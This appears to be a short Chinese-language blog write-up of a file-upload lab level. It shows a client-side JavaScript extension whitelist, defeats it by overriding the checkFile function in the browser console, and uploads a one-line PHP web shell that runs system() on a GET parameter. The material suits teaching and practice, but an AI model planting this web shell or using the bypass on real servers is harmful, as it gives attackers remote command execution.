 <figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br></pre></td><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">script</span> <span class="attr">type</span>=<span class="string">&quot;text/javascript&quot;</span>&gt;</span><span class="language-javascript"></span></span><br><span class="line"><span class="language-javascript">    <span class="keyword">function</span> <span class="title function_">checkFile</span>(<span class="params"></span>) &#123;</span></span><br><span class="line"><span class="language-javascript">        <span class="keyword">var</span> file = <span class="variable language_">document</span>.<span class="title function_">getElementsByName</span>(<span class="string">&#x27;upload_file&#x27;</span>)[<span class="number">0</span>].<span class="property">value</span>;</span></span><br><span class="line"><span class="language-javascript">        <span class="keyword">if</span> (file == <span class="literal">null</span> || file == <span class="string">&quot;&quot;</span>) &#123;</span></span><br><span class="line"><span class="language-javascript">            <span class="title function_">alert</span>(<span class="string">&quot;请选择要上传的文件!&quot;</span>);</span></span><br><span class="line"><span class="language-javascript">            <span class="keyword">return</span> <span class="literal">false</span>;</span></span><br><span class="line"><span class="language-javascript">        &#125;</span></span><br><span class="line"><span class="language-javascript">        <span class="comment">//定义允许上传的文件类型</span></span></span><br><span class="line"><span class="language-javascript">        <span class="keyword">var</span> allow_ext = <span class="string">&quot;.jpg|.png|.gif&quot;</span>;</span></span><br><span class="line"><span class="language-javascript">        <span class="comment">//提取上传文件的类型</span></span></span><br><span class="line"><span class="language-javascript">        <span class="keyword">var</span> ext_name = file.<span class="title function_">substring</span>(file.<span class="title function_">lastIndexOf</span>(<span class="string">&quot;.&quot;</span>));</span></span><br><span class="line"><span class="language-javascript">        <span class="comment">//判断上传文件类型是否允许上传</span></span></span><br><span class="line"><span class="language-javascript">        <span class="keyword">if</span> (allow_ext.<span class="title function_">indexOf</span>(ext_name) == -<span class="number">1</span>) &#123;</span></span><br><span class="line"><span class="language-javascript">            <span class="keyword">var</span> errMsg = <span class="string">&quot;该文件不允许上传，请上传&quot;</span> + allow_ext + <span class="string">&quot;类型的文件,当前文件类型为：&quot;</span> + ext_name;</span></span><br><span class="line"><span class="language-javascript">            <span class="title function_">alert</span>(errMsg);</span></span><br><span class="line"><span class="language-javascript">            <span class="keyword">return</span> <span class="literal">false</span>;</span></span><br><span class="line"><span class="language-javascript">        &#125;</span></span><br><span class="line"><span class="language-javascript">    &#125;</span></span><br><span class="line"><span class="language-javascript"></span><span class="tag">&lt;/<span class="name">script</span>&gt;</span></span><br></pre></td></tr></table></figure>

<p>emmmm……直接到控制台，输入</p>
<figure class="highlight javascript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">checkFile = <span class="function">() =&gt;</span> &#123; <span class="keyword">return</span> <span class="literal">true</span>; &#125;;</span><br></pre></td></tr></table></figure>

<p>再上传个1.php，完事了</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line">    <span class="title function_ invoke__">system</span>(<span class="variable">$_GET</span>[<span class="string">&quot;cmd&quot;</span>])</span><br><span class="line"><span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>
